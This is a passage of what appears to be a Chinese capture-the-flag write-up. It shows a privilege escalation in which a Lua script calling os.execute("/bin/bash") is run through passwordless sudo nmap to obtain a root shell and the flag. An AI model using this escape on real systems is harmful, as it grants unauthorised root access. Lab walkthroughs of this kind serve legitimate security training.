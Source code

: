 发现jens可以在无密码的情况下执行nmap

![img](./assets/wps924.jpg) 

 

 

写入一个getshell脚本，并让nmap运行

```
echo 'os.execute("/bin/bash")' >> getshell
```

 

![img](./assets/wps925.jpg) 

 

 

```
sudo nmap --script=getshell
```

![img](./assets/wps926.jpg) 

 

 

成功取得root权限

取得flag

![img](./assets/wps927.jpg) 

 

 

 